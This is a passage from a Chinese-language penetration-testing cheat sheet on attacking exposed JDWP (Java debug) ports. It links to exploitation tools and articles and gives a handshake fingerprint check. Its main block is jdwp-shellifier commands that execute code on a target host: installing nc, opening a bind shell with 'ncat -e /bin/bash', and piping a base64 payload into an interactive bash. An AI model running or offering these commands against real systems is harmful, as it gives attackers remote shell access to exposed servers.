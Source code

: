 - 相关工具
    - [frohoff/ysoserial: A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.](https://github.com/frohoff/ysoserial)
    - [A-D-Team/attackRmi](https://github.com/A-D-Team/attackRmi)

**jdwp**

- 简介

    JDWP 是 Java Debug Wire Protocol 的缩写，在 JPDA（Java Platform Debugger Architecture）中，它定义了调试器（debugger）和被调试的 Java 虚拟机（target vm）之间的通信协议。

    与 PHP 的 Xdebug 类似，当其调试端口直接开放在公网上时，很容易被攻击者攻击并且获取系统权限。

- 指纹
    - `JDWP-Handshake`
        ```
        telnet 端口后，输入命令 JDWP-Handshake
        如果返回 JDWP-Handshake，证明存在漏洞。
        ```
        ```
        jdb -attach IP:PORT
        ```

- 相关文章
    - [JDWP无依赖攻击](https://xz.aliyun.com/t/7303)
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)
    - [jdwp远程调试与安全](https://qsli.github.io/2018/08/12/jdwp/)
    - [jdwp命令执行](https://blog.csdn.net/caiqiiqi/article/details/83146415)
    - [某大厂红队评估_之_JDWP打点](https://mp.weixin.qq.com/s/PPyXTdqWP1OAHYnYL9CScQ)

- 相关工具
    - [IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
        ```
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'touch /tmp/pwnd'

        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'rm -f /var/run/yum.pid'
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'yum install -y nc'
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'ncat -v -l -p 7777 -e /bin/bash'

        jdwp-shellifier.py -t xx.xx.xx.xx -p 8000 --break-on java.lang.String.indexOf --cmd "bash -c {echo,  bash64的payload  } | {base64,-d} | {bash,-i}"
        ```
    - [Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier) - 修改利用方式为通过对 Sleeping 的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

---

## Python

**Python_PDB**
